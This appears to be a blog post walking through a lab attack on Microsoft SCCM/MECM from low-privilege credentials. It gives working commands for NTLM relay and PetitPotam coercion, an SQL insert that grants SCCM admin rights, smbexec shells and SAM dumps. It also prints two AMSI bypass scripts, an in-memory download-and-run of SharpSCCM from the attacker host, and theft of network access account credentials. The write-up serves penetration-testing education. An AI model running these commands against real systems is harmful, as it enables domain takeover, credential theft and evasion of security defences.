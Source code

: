 ```yaml
---
layout: post
title:  "SCCM / MECM LAB - Part 0x2 - Low user"
category : [AD, SCCM]
tags :  AD, SCCM
---
```


On the previous post ([SCCM LAB part 0x1]({% link _posts/2024-03-28-SCCM-LAB-part0x1.md %})) we started the recon and exploit the PXE feature.
On this part we will start SCCM exploitation with low user credentials.

# Takeover 1 - relay to mssql (low user -> mssql server admin)

- A super cool technic by default on mecm when the database is separate of the site server is that the server site is necessary sysadmin of the database. We can use it to relay the MECM$ computer to the MSSQL server database.
- Details : [Takeover-1](https://github.com/subat0mik/Misconfiguration-Manager/blob/main/attack-techniques/TAKEOVER/TAKEOVER-1/takeover-1_description.md)

- [sccmhunter](https://github.com/garrettfoster13/sccmhunter) will do the coffee for that by giving us the query we need to relay !

```bash
python3 sccmhunter.py mssql -u carol -p SCCMftw -d sccm.lab -dc-ip 192.168.33.10 -debug -tu carol -sc P01 -stacked
```
![sccm_hunter_relay_mssql.png](/assets/blog/SCCM/sccm_hunter_relay_mssql.png)

- Prepare the relay with the mssql query from the previous command

```bash
ntlmrelayx.py -smb2support -ts -t mssql://192.168.33.12 -q "USE CM_P01; INSERT INTO RBAC_Admins (AdminSID,LogonName,IsGroup,IsDeleted,CreatedBy,CreatedDate,ModifiedBy,ModifiedDate,SourceSite) VALUES (0x010500000000000515000000680D6A08DCF1872FCE3F29425A040000,'SCCMLAB\carol',0,0,'','','','','P01');INSERT INTO RBAC_ExtendedPermissions (AdminID,RoleID,ScopeID,ScopeTypeID) VALUES ((SELECT AdminID FROM RBAC_Admins WHERE LogonName = 'SCCMLAB\carol'),'SMS0001R','SMS00ALL','29');INSERT INTO RBAC_ExtendedPermissions (AdminID,RoleID,ScopeID,ScopeTypeID) VALUES ((SELECT AdminID FROM RBAC_Admins WHERE LogonName = 'SCCMLAB\carol'),'SMS0001R','SMS00001','1'); INSERT INTO RBAC_ExtendedPermissions (AdminID,RoleID,ScopeID,ScopeTypeID) VALUES ((SELECT AdminID FROM RBAC_Admins WHERE LogonName = 'SCCMLAB\carol'),'SMS0001R','SMS00004','1');"
```

- Launch petitpotam (or another coerce) :

```bash
petitpotam.py -d sccm.lab -u carol -p SCCMftw 192.168.33.1 192.168.33.11
```

![sccm_hunter_relay_mssql_petipotam.png](/assets/blog/SCCM/sccm_hunter_relay_mssql_petipotam.png)

- And our low user become MECM admin \o/

![sccm_hunter_relay_mssql2.png](/assets/blog/SCCM/sccm_hunter_relay_mssql2.png)

- As a proof let's connect as admin with sccmhunter

```bash
python3 sccmhunter.py admin -u carol@sccm.lab -p 'SCCMftw' -ip 192.168.33.11 

() C:\ >> show_admins
```

![sccm_hunter_relay_mssql_new_admin.png](/assets/blog/SCCM/sccm_hunter_relay_mssql_new_admin.png)


# Takeover-2 - Relay to SMB on remote DB (low user -> mecm admin account)

- Microsoft impose the computer account of the site server to be admin on the mssql server
- By knowing that you can simply coerce MECM to MSSQL computer and get the hashes
- Details : [Takeover-2](https://github.com/subat0mik/Misconfiguration-Manager/blob/main/attack-techniques/TAKEOVER/TAKEOVER-2/takeover-2_description.md)


- prepare the relay to the mssql server

```bash
ntlmrelayx -t 192.168.33.12 -smb2support -socks
```

- launch the coerce with petitpotam

```bash
petitpotam.py -d sccm.lab -u sccm-naa -p 123456789 192.168.33.1 192.168.33.11
```

![sccm_relay_to_mssql_smb.png](/assets/blog/SCCM/sccm_relay_to_mssql_smb.png)

- Get a shell
```bash
proxychains -q smbexec.py -no-pass SCCMLAB/'MECM$'@192.168.33.12
```

![elevate1_smbexec.png](/assets/blog/SCCM/elevate1_smbexec.png)

- Get the sam
```bash
proxychains -q secretsdump.py -no-pass SCCMLAB/'MECM$'@192.168.33.12
```

![elevate1_sam.png](/assets/blog/SCCM/elevate1_sam.png)


# Elevate-2 - Relay Client Push Installation (low user -> client push account)

- Client push if fallback to ntlm is enabled
- Details : [Elevate-2](https://github.com/subat0mik/Misconfiguration-Manager/blob/main/attack-techniques/TAKEOVER/TAKEOVER-2/takeover-2_description.md)
- As we can't do that from linux we will use [SharpSCCM](https://github.com/Mayyhem/SharpSCCM) to do that.
- Let's connect with a low user like `sccm.lab\franck:rockme` to CLIENT$
- Compile and put SharpSCCM_merged.exe into a folder on your attack machine (servir it with `python3 -m http.server 8888`)
- Launch a responder in you attack vm (`Responder.py -I vmnet6`)

- On CLIENT$ do AMSI bypass on powershell level

```powershell
$x=[Ref].Assembly.GetType('System.Management.Automation.Am'+'siUt'+'ils');$y=$x.GetField('am'+'siCon'+'text',[Reflection.BindingFlags]'NonPublic,Static');$z=$y.GetValue($null);[Runtime.InteropServices.Marshal]::WriteInt32($z,0x41424344)
```

- Next run the rastamouse's AMSI bypass to disable AMSI for csharp too

```powershell
# Patching amsi.dll AmsiScanBuffer by rasta-mouse
$Win32 = @"

using System;
using System.Runtime.InteropServices;

public class Win32 {

    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);

    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);

}
"@

Add-Type $Win32

$LoadLibrary = [Win32]::LoadLibrary("amsi.dll")
$Address = [Win32]::GetProcAddress($LoadLibrary, "AmsiScanBuffer")
$p = 0
[Win32]::VirtualProtect($Address, [uint32]5, 0x40, [ref]$p)
$Patch = [Byte[]] (0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3)
[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, 6)
```

- And then launch SharpSCCM in memory

```powershell
$data=(New-Object System.Net.WebClient).DownloadData('http://192.168.33.1:8888/SharpSCCM_merged.exe');
$asm = [System.Reflection.Assembly]::Load([byte[]]$data);
[SharpSCCM.Program]::Main("invoke client-push -mp mecm.sccm.lab -sc P01 -t 192.168.33.1".split());
```

![sccm_client_push.png](/assets/blog/SCCM/sccm_client_push.png)

- A few moment later on responder, the client-push account (local admin of sccm client !) and the MECM$ computer account (admin of at least the mssql server)

![sccm_client_push_responder.png](/assets/blog/SCCM/sccm_client_push_responder.png)

- Now we have confirmation of the account involve let's relay to mssql server
- Prepare the relay :

```bash
ntlmrelayx.py -t 192.168.33.12  -smb2support -socks
```

- relaunch the client push
```powershell
[SharpSCCM.Program]::Main("invoke client-push -mp mecm.sccm.lab -sc P01 -t 192.168.33.1".split());
```

- And get a shell with the relay

```bash
proxychains -q smbexec.py -no-pass SCCM.LAB/SCCM-CLIENT-PUSH@192.168.33.12
```
![sccm_client_push_relay_smb.png](/assets/blog/SCCM/sccm_client_push_relay_smb.png)


> Warning this will create an entry into the mecm device (you will have to delete it once sccmadmin or ask your client to do that)
> ![unexpected_devices.png](/assets/blog/SCCM/unexpected_devices.png)
{: .prompt-warning }

# Cred-2 - Policy Request Credentials - Computer account get secrets of NAA (computer acount -> naa account)

- Add a computer:

```bash
addcomputer.py -computer-name 'exegol$' -computer-pass 'maytheforcebewithyou' 'sccm.lab/carol:SCCMftw' -dc-ip 192.168.33.10
```

![sccm_add_computer.png](/assets/blog/SCCM/sccm_add_computer.png)

## from linux
- details [here](https://blog.xpnsec.com/unobfuscating-network-access-accounts/)

- Add this line in your `/etc/hosts`

```
192.168.33.11 MECM MECM.SCCM.LAB
```

- From linux use SCCMWTF

```bash
python3 sccmwtf.py fake fakepc.sccm.lab MECM 'SCCMLAB\exegol$' 'maytheforcebewithyou'
```

![sccm_wtf.png](/assets/blog/SCCM/sccm_wtf.png)

- Creds are in naapolicy.xml

![naapolicy.xml.png](/assets/blog/SCCM/naapolicy.xml.png)

- And xpn also write the python script to decipher the result <3

```bash
cat /tmp/naapolicy.xml |grep 'NetworkAccessUsername\|NetworkAccessPassword' -A 5 |grep -e 'CDATA' | cut -d '[' -f 3|cut -d ']' -f 1| xargs -I {} python3 policysecretunobfuscate.py {}
```

![sccmwtf_decipher.png](/assets/blog/SCCM/sccmwtf_decipher.png)

> Warning this one also will create an entry into the mecm device (you will have to delete it once sccmadmin or ask your client to do that)
> ![dirtu_sccmwtf.png](/assets/blog/SCCM/dirtu_sccmwtf.png)
{: .prompt-warning }


## from windows

- Details [here](https://github.com/subat0mik/Misconfiguration-Manager/blob/main/attack-techniques/CRED/CRED-2/cred-2_description.md)
- From windows launch the get secrets command

```bash
[SharpSCCM.Program]::Main("get secrets -r newcomputer -u exegol$ -p maytheforcebewithyou".split());
```

![sharpsccm_getnaa.png](/assets/blog/SCCM/sharpsccm_getnaa.png)

> Careful this one also create artifact in the client console
> ![dirty_naa_retreive.png](/assets/blog/SCCM/dirty_naa_retreive.png)
{: .prompt-warning }


